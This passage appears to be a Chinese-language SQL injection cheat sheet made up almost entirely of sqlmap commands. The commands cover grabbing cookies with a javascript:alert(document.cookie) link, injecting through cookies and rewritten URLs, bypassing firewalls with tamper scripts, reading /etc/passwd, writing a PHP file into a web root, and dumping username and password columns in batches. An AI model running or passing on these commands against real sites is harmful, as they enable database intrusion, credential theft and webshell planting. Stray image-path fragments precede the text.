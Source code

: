 javascript:alert(document.cookie)，，需要获取当前cookie的时候，

直接点一下这个链接，然后复制一下弹出对话框

里的cookie值就搞定了

sqlmap.py -u http://x.x.x.x/Down.aspx?tid=2 -p tid --dbms mssql --cookie="info=username=test"

-p是指指定参数注入

4. sqlmap遇到url重写的注入

哪里存在注入就加上 * 号

1

./sqlmap.py -u "http://www.cunlide.com/id1/1*/id2/2"

5.sqlmap 编码绕waf注入

./sqlmap.py -u http://127.0.0.1/test.php?id=1 -v 3 –dbms “MySQL” –technique U -p id –batch –tamper "space2morehash.py"

在sqlmap 的 tamper目录下有很多space2morehash.py 编码脚本自行加载

 

sqlmap读文件

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--file-read “/etc/passwd"

sqlmap写文件

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--file-write /localhost/mm.php --file-dest/var/www/html/xx.php -v 2

 

sqlmap分段脱裤

sqlmap.py -u url -D "data" -T "tables" -C "username,password,email" --dump --threads=5 --start=1 --stop=5000

其他基础：

sqlmap -u "http://url/news?id=1" --level=3 --smart --dbms "Mysql" --current-user #获取当前用户名称

sqlmap -u "http://www.xxoo.com/news?id=1" --level=3 --smart --dbms "Mysql" --current-db #获取当前数据库名称

sqlmap -u "http://www.xxoo.com/news?id=1" --level=3 --smart --dbms "Mysql"--tables -D "db_name" #列表名

sqlmap -u "http://url/news?id=1" --level=3 --smart --dbms "Mysql" --columns -T "tablename" users-D "db_name" -v 0 #列字段

sqlmap -u "http://url/news?id=1" --level=3 --smart --dbms "Mysql" --dump -C "column_name" -T "table_name" -D "db_name" -v 0 #获取字段内容

 

******************信息获取******************

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --users #列数据库用户

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --dbs#列数据库

